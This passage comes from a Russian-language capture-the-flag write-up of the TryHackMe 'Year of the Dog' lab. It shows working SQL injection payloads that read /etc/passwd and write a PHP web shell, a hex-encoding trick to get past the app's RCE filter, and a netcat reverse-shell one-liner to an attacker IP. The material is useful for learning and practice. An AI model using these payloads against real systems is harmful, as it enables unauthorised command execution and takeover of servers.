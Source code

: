 Получив ответ, мы видим, что нам вывелось содержимое файла /etc/passwd. Возможно мы также имеем права на запись.
```
405'union+select+null,'1' into outfile '/var/www/html/shell.php-- -
```

<a name="Php_command_exploit"></a>

Отправив запрос, можно перейти в поисковой строке к этому файлу и увидеть записанную нами единицу. Запишем в файл php код для использования команд:
```
405'union+select+null,'<?php system($_GET['cmd']) ?> into outfile '/var/www/html/shell.php'-- - 
```

Отправив этот запрос мы получим следующее сообщение: "RCE Attempt detected". Приложение не дает нам отправить этот запрос, значит попробуем его заодировать в hex и отправить снова.
```
405'union+select+null,unhex('273c3f7068702073797374656d28245f4745545b27636d64275d29203f3e') into outfile '/var/www/html/shell.php'
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Dog/12.png)

В ответе мы получаем ошибку, значит наш запрос обработался. Перейдем снова к сайту и обратимся к нашему параметру.
```
http://dog.thm/shell1.php?cmd=whoami
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Dog/13.png)

В ответе мы получили текущего пользователя, значит теперь мы может получить обратную оболочку. Запускаем слушатель и прописываем следующую команду. Получаем оболочку.
```
curl -G --data-urlencode 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.61.235 3333 >/tmp/f' http://dog.thm/shell.php
```
